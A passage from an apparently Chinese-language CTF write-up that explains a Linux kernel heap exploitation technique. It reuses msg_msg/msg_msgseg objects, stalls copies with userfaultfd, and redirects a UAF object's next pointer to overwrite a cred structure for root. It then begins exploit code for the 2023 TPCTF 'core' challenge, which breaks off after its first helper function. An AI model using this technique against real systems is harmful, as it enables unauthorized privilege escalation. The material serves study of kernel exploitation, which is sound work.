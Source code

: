 - `MSG#0 QID2`是`MSG#2 QID1`，即新的`msg_msg`结构体是刚刚的`msg_msgseg`
- `MSG#1 QID2`是`MSG#1 QID1`，即新的`msg_seg`结构体是刚刚的`msg_msg`结构体，**其地址已知**
- 在新的`msg_msg`末尾使用`usefaultfd`卡住，使其不往`msg_msgseg`写内容

![ab64342e-b7b5-4a96-af89-3e892142ffbf](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/imagesab64342e-b7b5-4a96-af89-3e892142ffbf.png)

随后：

- 改写`UAF obj`的`next`指针，使其指向已知地址的`MSG#1 QID2`
- 释放`UAF obj`，使其将`MSG#1 QID2`释放

![b6e2bb8e-a3b3-4d39-9e3d-0a556103a601](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/imagesb6e2bb8e-a3b3-4d39-9e3d-0a556103a601.png)

随后：

- 申请新的`msg_msg`，其中`MSG#0 QID3`为刚刚释放的已知地址的`MSG#1 QID2`，并随便带一个大小的`msg_msgseg`，写内容时使用`userfaultfd`卡住

![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images0c804b7751f0d7df01d12db4e6b67192.png)

随后：

- 先让第一个`msg_msg`写内容，使其改写第二个`msg_msg`的`next`为`cred`结构体
- 再让第二个`msg_msg`写内容，使其改写`cred`结构体内容为`root`

![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images77fce7b7434060b63ec5b3e52835e926.png)

### demo： 2023 TPCTF core

就是`0x40`的`UAF`。

`exp`如下，注意`pthread_create`有很多噪声：

```c
#include "ltfallkernel.h"

#define ADD 0X1001
#define EDIT 0x1002
#define DELETE 0x1003

size_t init_task = 0xffffffff81c124c0;

int dev_fd;
size_t *pwn_addr;
size_t *pwn_addr2;
pthread_t p1, p2, p3;
int msg_id[10];
size_t cur_cred;
size_t msg1_q1;
int pipe_fd1[2], pipe_fd2[2], pipe_fd3[2];
size_t *buffer;

size_t *page1, *page2;

typedef struct
{
    size_t func_index;
    int index;
    size_t *content;
} request;

void add(unsigned int index)
{
    request t;
    t.index = index;
    ioctl(dev_fd, ADD, &t);
}

```